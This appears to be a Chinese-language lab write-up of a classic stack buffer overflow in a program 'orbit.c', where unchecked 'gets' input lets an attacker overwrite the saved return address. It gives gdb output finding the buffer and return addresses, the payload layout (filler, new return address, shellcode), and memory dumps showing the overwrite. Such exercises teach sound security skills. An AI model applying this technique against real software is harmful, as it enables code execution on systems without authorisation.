 ## Main Idea

最简单的缓存区溢出情况。在`orbit.c:orbit`中，`gets`函数直接从标准输入中读取所有输入直到遇上换行符，这个函数不会检查读取的字符长度，所以当输入的字符数大于缓冲区的大小时，多出来的字符会覆盖掉当前栈上的内容。

因此，我们可以通过构造输入来劫持返回地址，使得程序可以运行我们的shellcode。

## Magic Numbers

首先获得`buf`的地址：
```
(gdb) p &buf
$1 = (char (*)[8]) 0xffffda98
```

然后获得函数`orbit`的返回地址：
```
(gdb) i f
Stack level 0, frame at 0xffffdab0:
 eip = 0x80491eb in orbit (orbit.c:5); saved eip = 0x8049208
 called by frame at 0xffffdac0
 source language c.
 Arglist at 0xffffdaa8, args: 
 Locals at 0xffffdaa8, Previous frame's sp is 0xffffdab0
 Saved registers:
  ebp at 0xffffdaa8, eip at 0xffffdaac
```

## Exploit Structure

根据获取的信息，很容易构造出payload：

1. 用字符覆盖从`buf`到`eip`之间的区域。
2. 覆盖旧的返回地址`eip`，由于我们直接把SHELLCODE放在`eip`后面，因此新的返回地址为`eip + 4`，即`0xffffdab0`。
3. 最后，直接在`eip`之后插入SHELLCODE。

## Exploit GDB Output

进行爆破前：
```
(gdb) x/8x &buf
0xffffda98:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdaa8:     0xffffdab8      0x08049208      0x00000001      0x080491fd
```

进行爆破后：
```
(gdb) x/8x &buf
0xffffda98:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffdaa8:     0x41414141      0xffffdab0      0xcd58326a      0x89c38980
```